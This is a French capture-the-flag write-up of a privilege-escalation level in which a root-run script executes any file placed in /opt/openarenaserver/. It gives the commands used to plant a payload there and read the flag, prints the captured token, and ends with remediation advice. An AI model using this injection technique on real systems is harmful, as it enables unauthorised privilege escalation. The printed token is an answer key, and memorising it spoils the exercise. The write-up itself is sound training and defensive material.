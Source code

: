 # Rapport de Vulnérabilité : Exécution automatique de scripts via un répertoire surveillé

## Description

Dans ce niveau, un script shell présent dans `/usr/sbin/openarenaserver` exécute automatiquement tout fichier placé dans un dossier spécifique (`/opt/openarenaserver/`). Il ne vérifie pas l’identité de l’utilisateur à l’origine du fichier, ce qui permet d’injecter un script malveillant qui sera exécuté avec les privilèges de l’utilisateur `flag05`. Cette faille permet donc de détourner le mécanisme d’exécution automatique pour obtenir le flag.

## Comment Exploiter la Faille

### Étape 1 : Rechercher les fichiers appartenant à `flag05`

```bash
find / -user flag05 2>/dev/null
```

**Résultat :**

```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

### Étape 2 : Analyse du script trouvé

```bash
cat /usr/sbin/openarenaserver
```

**Contenu :**

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ce script exécute tout fichier présent dans `/opt/openarenaserver/` avec `bash`, puis supprime le fichier après exécution.

### Étape 3 : Injection d’un script malveillant

On crée un fichier qui contient une commande pour récupérer le flag :

```bash
echo "getflag > /tmp/token" > /opt/openarenaserver/playload
```

Lorsque le script `openarenaserver` est déclenché, il exécute le fichier `playload`, ce qui redirige la sortie de `getflag` vers `/tmp/token`.

### Étape 4 : Lecture du flag

Une fois le script exécuté automatiquement :

```bash
cat /tmp/token
```

**Flag obtenu :**

```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Vérifier l’identité de l’utilisateur avant d’exécuter un fichier** : S’assurer que seuls les fichiers écrits par un utilisateur autorisé soient exécutés.
* **Restreindre l’accès au répertoire surveillé** : Limiter les permissions en écriture de `/opt/openarenaserver/` pour empêcher l’injection de scripts par des utilisateurs non autorisés.
* **Utiliser des mécanismes d'exécution sécurisés** : Éviter d’exécuter des scripts directement avec `bash` sur du contenu externe non vérifié.

## Conclusion

Cette faille démontre les risques liés à l’exécution automatique de fichiers dans un répertoire public. Sans vérification de l’origine ni des permissions, un simple fichier déposé peut permettre une élévation de privilèges. La sécurisation des répertoires exécutés dynamiquement est essentielle pour éviter ce type d’attaque.

---
